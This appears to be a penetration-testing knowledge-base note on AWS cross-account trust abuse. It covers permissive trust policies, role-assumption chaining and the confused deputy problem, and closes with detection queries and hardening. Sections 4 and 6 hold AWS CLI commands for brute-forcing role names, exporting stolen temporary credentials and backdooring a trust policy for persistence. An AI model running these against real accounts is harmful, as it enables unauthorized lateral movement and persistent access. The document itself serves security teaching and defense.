

# Cross-Account Trust Abuse and AssumeRole Chaining

## 1. Executive Summary & Introduction

AWS environments scale by utilizing multiple accounts, often organized under AWS Organizations or managed by AWS Control Tower. To manage resources across these boundaries, AWS relies heavily on **IAM Roles** and **Trust Policies**. The `sts:AssumeRole` API allows an identity in Account A (the trusted account) to request temporary security credentials to act as a role in Account B (the trusting account).

While this architecture is the bedrock of secure, scalable cloud administration, misconfigured Trust Policies introduce extreme systemic risk. Attackers exploit overly permissive trust relationships to execute **Cross-Account Trust Abuse**, laterally moving from a low-value compromised account to a highly sensitive production or centralized logging account. Furthermore, a failure to validate the requesting identity can lead to the **Confused Deputy Problem**, allowing malicious third parties to hijack delegated access intended for legitimate SaaS vendors.

## 2. Architectural Diagram: AssumeRole Chaining

The following ASCII diagram illustrates an attacker chaining role assumptions across three different AWS accounts to reach the ultimate objective: the production database.



## 3. The Core Mechanism: IAM Trust Policies

An IAM Role is governed by two policy types:
1. **Identity-Based Policy (Permissions Policy)**: Defines *what* the role can do (e.g., `s3:GetObject`).
2. **Resource-Based Policy (Trust Policy)**: Defines *who* can assume the role.

A vulnerable trust policy often looks like this:
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::111111111111:root" 
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```
**The Flaw**: By trusting the `root` ARN of Account `111111111111`, the policy allows *any* user or role within Account `111111111111` (provided they have `sts:AssumeRole` permissions in their own account) to assume this role. If an attacker compromises *any* identity in Account `111111111111`, they can bridge into the trusting account without needing specific cross-account users.

## 4. Exploitation Workflow: Enumeration and Assumption

### Step 1: Identifying the Target Role ARN
To assume a role, the attacker must know the exact ARN. Because IAM is a global service, ARNs are predictably formatted: `arn:aws:iam::<ACCOUNT_ID>:role/<ROLE_NAME>`.

Attackers use tools to brute-force or enumerate target roles across known account IDs. They look for common names like `OrganizationAccountAccessRole` (the default AWS Organizations/Control Tower role), `CrossAccountAdmin`, `JenkinsRole`, or `TerraformExecution`.

```bash
# Brute-forcing role names utilizing Pacu or custom bash loops
for role in OrganizationAccountAccessRole Admin SecurityAudit DBA; do
    aws sts assume-role \
        --role-arn arn:aws:iam::222222222222:role/$role \
        --role-session-name test \
        && echo "Successfully assumed $role!"
done
```
*Note: If an attacker assumes `OrganizationAccountAccessRole`, they instantly gain AdministratorAccess over the child account, as this is the default behavior of AWS Organizations.*

### Step 2: Executing AssumeRole
Once a vulnerable role is identified, the attacker uses the AWS Security Token Service (STS) to generate temporary credentials.

```bash
aws sts assume-role \
    --role-arn arn:aws:iam::222222222222:role/OrganizationAccountAccessRole \
    --role-session-name "LegitimateAdminSession"
```

The output yields an `AccessKeyId`, `SecretAccessKey`, and a `SessionToken`.

```json
{
    "Credentials": {
        "AccessKeyId": "ASIAV3XYZ...",
        "SecretAccessKey": "wJalrXUtnFEMI...",
        "SessionToken": "IQoJb3JpZ2luX2Vj...",
        "Expiration": "2026-06-10T02:00:00Z"
    }
}
```

### Step 3: Importing Credentials and Chaining
The attacker configures their AWS CLI profile with these temporary credentials and repeats the process, pivoting into Account C, Account D, and so on.

```bash
export AWS_ACCESS_KEY_ID="ASIAV3XYZ..."
export AWS_SECRET_ACCESS_KEY="wJalrXUtnFEMI..."
export AWS_SESSION_TOKEN="IQoJb3JpZ2luX2Vj..."

# Verify the new identity
aws sts get-caller-identity
```

## 5. The Confused Deputy Problem

A critical variation of cross-account abuse is the **Confused Deputy**. This occurs when a third-party SaaS provider (e.g., a cloud security posture management tool, Datadog, Snowflake) requires you to create a cross-account role trusting their AWS account.

If the SaaS provider tells you to trust their account `arn:aws:iam::999999999999:root`, but fails to mandate a unique identifier, an attacker who is *also* a customer of that SaaS provider can tell the SaaS platform: "Hey, monitor my AWS account, the role ARN is `arn:aws:iam::YOUR_VICTIM_ACCOUNT:role/SaaSIntegrationRole`." 

The SaaS provider (Account 999999999999) legitimately assumes the role in your account, but passes the extracted data back to the *attacker's* dashboard on the SaaS platform!

### The Fix: sts:ExternalId
To prevent the Confused Deputy, AWS introduced the `ExternalId` condition. The trust policy must demand a secret, unique string provided by the SaaS platform.

```json
"Condition": {
    "StringEquals": {
        "sts:ExternalId": "uuid-assigned-to-victim-tenant-only"
    }
}
```
If an attacker attempts to exploit a role without providing the correct `ExternalId`, STS denies the request. During VAPT, finding a cross-account third-party integration lacking an `ExternalId` condition is an immediate critical finding.

## 6. Persistence: Trust Policy Backdooring

Once an attacker achieves administrative access in an account, they establish persistence by modifying an existing, heavily-used role's Trust Policy to subtly include their own external AWS account.

```bash
# Update the trust policy of a legitimate EC2 role
aws iam update-assume-role-policy \
    --role-name LegitimateAppRole \
    --policy-document file://backdoor-trust.json
```
Because the `LegitimateAppRole` is used constantly by applications, security teams rarely audit its trust policy, allowing the attacker silent, persistent entry back into the account via an external AWS account under the attacker's control.

## 7. Detection Engineering and Hardening

### Analyzing CloudTrail for Lateral Movement
Defenders must monitor for `AssumeRole` events crossing account boundaries.

**Hunt Logic:**
1. Look at `AssumeRole` events.
2. Compare the `userIdentity.accountId` (the account making the request) with the `requestParameters.roleArn` (the account the role lives in).
3. If they do not match, verify if this is an expected cross-account jump.

```sql
-- Athena Query for Cross Account Assumptions
SELECT 
    eventTime,
    userIdentity.arn AS caller_identity,
    requestParameters.roleArn AS target_role,
    sourceIPAddress
FROM cloudtrail_logs
WHERE eventName = 'AssumeRole'
  AND eventSource = 'sts.amazonaws.com'
  AND SPLIT_PART(userIdentity.arn, ':', 5) != SPLIT_PART(requestParameters.roleArn, ':', 5)
```

### Advanced Hardening with SCPs
AWS Organizations allows deploying Service Control Policies (SCPs) to strictly enforce boundaries. You can block any identity from assuming a role outside the organization.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Deny",
      "Action": "sts:AssumeRole",
      "Resource": "*",
      "Condition": {
        "StringNotEquals": {
          "aws:ResourceOrgID": "o-xyz1234567"
        }
      }
    }
  ]
}
```

### Best Practices
- **Restrict Trust Principals**: Never use `root` in trust policies unless strictly necessary. Trust specific roles: `"Principal": {"AWS": "arn:aws:iam::111111111111:role/SpecificRole"}`.
- **Require External IDs**: Mandate `sts:ExternalId` for all third-party account integrations.
- **Session Tags & Source IP Conditions**: Restrict the `AssumeRole` action to require the caller to come from a specific corporate IP or require specific STS session tags to be passed.

---

## Chaining Opportunities
- **Automated Enumeration**: Leveraging the Pacu framework's `iam__enum_roles` and `iam__bruteforce_permissions` modules to rapidly discover trust policy flaws across organizations `[[15 - Pacu and AWS CLI Penetration Testing Workflows]]`.
- **SSM Pivot**: Combining cross-account assumed roles with SSM to execute commands on instances residing in entirely different accounts, bridging the IAM layer and the compute layer `[[11 - AWS Systems Manager SSM Run Command Abuse]]`.

## Related Notes
- [[11 - AWS Systems Manager SSM Run Command Abuse]]
- [[15 - Pacu and AWS CLI Penetration Testing Workflows]]
- [[05 - IAM Privilege Escalation Fundamentals]]
- [[09 - Cloud Privilege Escalation Frameworks]]
